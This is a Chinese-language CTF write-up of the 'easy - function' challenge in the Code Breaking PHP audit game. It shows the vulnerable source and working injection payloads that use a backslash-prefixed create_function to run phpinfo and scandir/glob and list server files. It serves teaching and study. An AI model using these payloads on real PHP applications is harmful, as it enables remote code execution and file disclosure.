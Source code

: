 ```yaml
---
title: Code Breaking Writeup
date: 2018-12-30 12:34:38
tags:
- 代码审计
- Writeup
abstract: 
phith0n 在代码审计知识星球两周年时发起的审计游戏。
圈子内容质量很高，欢迎加入一起学习~
---
```


## 1.easy - function

> PHP 函数利用技巧

```php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```

环境：

- Apache 2.4.25
- PHP 7.2.12

仔细看一下 `isD` 模式修饰符

```
i  ==>  忽略大小写
s  ==>  点号匹配所有字符，包含换行符，未设置则不匹配换行符
D  ==>  模式中的 $ 仅仅匹配目标字符串的末尾
```

总的来说，`action` 中不能全是字母、数字以及下划线。为了不影响 `create_function` 调用，只能在前面或者后面插入一个无法被正则匹配到的字符，直接 fuzz 一波 ASCII 码，从 `%00 ~ %ff` 可得到 %5c 即 `\`。

先试一下 `phpinfo`

```php
%5ccreate_function&arg=}phpinfo();//
```

![]()

然后找 `flag`，`system()` 被禁掉了，直接用 php 的文件操作函数

```php
/?action=\create_function&arg=}print_r(scandir(dirname(__FILE__)."/../"));//

var_dump(glob("/var/www/*"));  // 也可以
```
